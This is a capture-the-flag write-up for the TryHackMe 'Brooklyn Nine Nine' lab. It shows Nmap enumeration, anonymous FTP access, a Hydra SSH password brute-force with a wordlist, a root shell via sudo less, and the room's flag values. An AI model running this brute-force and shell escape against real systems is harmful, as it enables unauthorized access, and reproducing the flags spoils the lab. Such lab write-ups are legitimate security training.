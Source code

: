 # Brooklyn Nine Nine

> Platform: TryHackMe
>
> Created by: Fsociety2006
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the Nmap. Actually, you can just use a normal Nmap command, but here is my preferences.
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ nmap -sVSC <TARGET-IP>8 -T5 -Pn -n -vvv -oA brooklyn99scan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.20s latency).
Scanned at 2025-07-31 22:30:33 +08 for 23s
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:<TARGET-IP>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

From the Nmap results, looks like we can login to the ftp to get the **".txt"** file.
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ ftp ftp@<TARGET-IP>
Connected to <TARGET-IP>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28984|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||14628|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |************************************************|   119      220.09 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.59 KiB/s)
ftp> exit
221 Goodbye.
```

Try to read the **"note_to_jake.txt"** file:
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ cat note_to_jake.txt   
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Looks like Jake password are weak, so we may use password dictionaries to bruteforce it.

## Exploitation

Try to run hydra to bruteforce the SSH password for user jake:
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt <TARGET-IP> ssh  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-31 23:14:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://<TARGET-IP>:22/
[22][ssh] host: <TARGET-IP>   login: jake   password: <JAKE-PASSWORD>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-31 23:14:24
```

Nice! We can try SSH now and get the user.txt:
```bash
$ ssh jake@<TARGET-IP>

$ pwd
/home/jake

$ cat /home/holt/user.txt
```

<details>
<summary><b>🏳️Flag: user.txt</b></summary>
<b>ee11cbb19052e40b07aac0ca060c23ee</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the sudo permission first
```bash
$ sudo -l
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Now, let's check how can we spawn a privilege shell by using less. From [GTFObins - Less](https://gtfobins.github.io/gtfobins/less/), we can get privilege shell running the command from the Sudo section.
```bash
$ sudo /usr/bin/less /etc/profile
```

Then, in the file, type:
```bash
!/bin/sh
```

Now, we need to read the **"root.txt"** file to complete this machine.
```
# cat /root/root.txt
```

![img](rootflag.png)

<details>
<summary><b>🏳️Flag: root.txt</b></summary>
<b>63a9f0ea7bb98050796b649e85481845</b>
</details><br>